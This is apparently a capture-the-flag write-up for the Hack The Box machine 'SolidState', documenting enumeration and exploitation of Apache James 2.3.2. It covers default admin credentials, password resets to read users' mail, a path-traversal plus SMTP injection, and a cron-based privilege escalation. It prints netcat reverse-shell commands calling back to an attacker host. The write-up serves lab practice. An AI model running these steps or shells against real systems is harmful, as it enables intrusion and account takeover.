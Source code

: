 # SolidState
**Machine ip:** 10.10.10.51

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.51 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.51`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cffe61ef-f4fa-4ed9-a7b6-151d7fc033f5)

+ The result shows that 5 ports are open:
```
Port 22: OpenSSH 7.4p1
Port 25: JAMES smtpd 2.3.2
Port 80: httpd 2.4.25
Port 110: JAMES pop3d 2.3.2
Port 119: JAMES nntpd
Port 4555: JAMES Remote Administration Tool 2.3.2
```

+ Navigate to `http://10.10.10.51/` and always start off with enumerating HTTP first.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8873f868-18e3-4fe4-9b10-4cc631320a78)

+ Directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.51/ -k -n -x html,php,txt -r -t 50
```

+ There is nothing interesting here.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a88a97d5-5224-41c7-858f-a171f12f9339)

+ James stands for Java Apache Mail Enterprise Server. James Mail Server listens on four ports which are SMTP on TCP 25, POP3 on TCP 110, NNTP on TCP 119 and TCP 4555.
+ Firstly, check TCP port 4555 because it is the James administration port.
+ `searchsploit james 2.3.2`
+ [Apache James Server 2.3.2 - Remote Command Execution](https://www.exploit-db.com/exploits/35513)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7cb78dc-cf4a-4d77-94a9-ee7f79588aa9)

+ `searchsploit -m 35513`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c43603ab-f981-4e94-8d30-edf92e1effb1)

## Exploitation

### 1.Method:
+ Connect to port 4555 with `root`-`root` using nc: `nc 10.10.10.51 4555`
+ List commands: `HELP`
+ To list users: `listusers`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/86624a9b-8b8d-477b-a421-5cabeabe861a)

+ Discovered 5 accounts:
```
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

+ Reset their passwords: `setpassword [username] [password] `

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/faf2449a-aab0-468f-9120-b76f41a0d3f9)

+ Connect to POP3 on TCP 110 to check mails using **telnet**.
```
telnet 10.10.10.51 110
USER james
PASS 123
LIST
```

+ There is no **james**' mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ee62ffa-8051-45c4-86d4-bbfc2ee80d82)

+ `Ctrl + D` and `quit` to quit telnet and open new telnet.
+ There is no mail for **thomas**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/28dba85b-5eb7-46f7-9b3e-68b223e68704)

+ There is a mail for **john**. Use to read: `retr 1`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/92417947-5654-4752-983c-be79a936f3af)

+ Check **mindy**'s mail.
+ There are 2 mails.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5ba2891c-17c9-408d-a446-a3298b47a897)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/156327e7-c701-47f5-b872-c11f1ea4f5d0)

+ On the second mail, discovered mindy's **ssh** credentials:
```
username: mindy
pass: P@55W0rd1!2@
```

+ **Lastly**, check **mailadmin**.
+ There is no mail.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73ddfa83-30ee-48e4-8936-8a8df777c9e1)

+ Try ssl login with `mindy`-`P@55W0rd1!2@` : `ssh mindy@10.10.10.51 `
+ Get user.txt:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2afc76f7-1f35-4a2f-b398-5c0b2cea2755)

+ As previously said on the second mail, access is restricted:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c8ded426-603e-4d03-860d-b2f9606647d5)

+ mindy’s shell is rbash(restricted bash shell).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd5f965b-922d-4a3b-90eb-b4dcdf6c6319)

+ Add `-t bash` to the SSH connection command to escape: `sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 -t bash`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/507882d1-c29e-471e-b6fe-9320d168cd60)

### 2.Method:
+ Log back to james remote admin server: `nc 10.10.10.51 4555`
+ Create a user with the username `../../../../../../../../etc/bash_completion.d` and password `123`.
```
nc 10.10.10.51 4555
adduser ../../../../../../../../etc/bash_completion.d 123
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0dd154bd-55c6-4f9e-8d75-6e1e2628efe4)

+ Send this user an email that contains a reverse shell. The significant point here is to add **single quote** in the **MAIL FROM** field and after the **FROM** field. 
```
telnet 10.10.10.51 25
EHLO test
MAIL FROM: <'test@mail.com>
RCPT TO: <../../../../../../../../etc/bash_completion.d>
DATA
```
```
FROM: test
'
/bin/nc -e /bin/bash 10.10.14.10 5555
.
```

+ Start listener on your kali attack machine: `nc -lnvp 5555`
+ Login ssh with `mindy`:`P@55W0rd1!2@` and wait 3 minutes until get the shell.
+ Get the shell without rbash shell!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ab9e6be-224e-4740-ae13-3695b6317f04)


## Privilege Escalation
+ Transfer [pspy](https://github.com/DominicBreuker/pspy) to the target.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cc163b76-6979-4950-a22d-234e76fbe523)

+ Check processess, and see `python /opt/tmp.py` is being run every three minutes by root.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b73f6b8a-3828-497b-9e9c-c6a78793aaad)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dbbe8171-9b71-4205-89f5-7fccd2d3482c)

+ Cat the script.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5b3389db-2be5-499a-afba-1cdade55565b)

+ Add a reverse shell to the file:
```
echo "os.system('/bin/nc -e /bin/bash 10.10.14.10 4444')" >> tmp.py
```

+ Start listener: `nc -lnvp 4444`

+ Get the root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bf72433f-2a2e-4170-a00d-6828eb6c7ba3)


# References & Alternatives:
+ https://vvmlist.github.io/#solidstate
+ https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/solidstate-writeup-w-o-metasploit
+ 
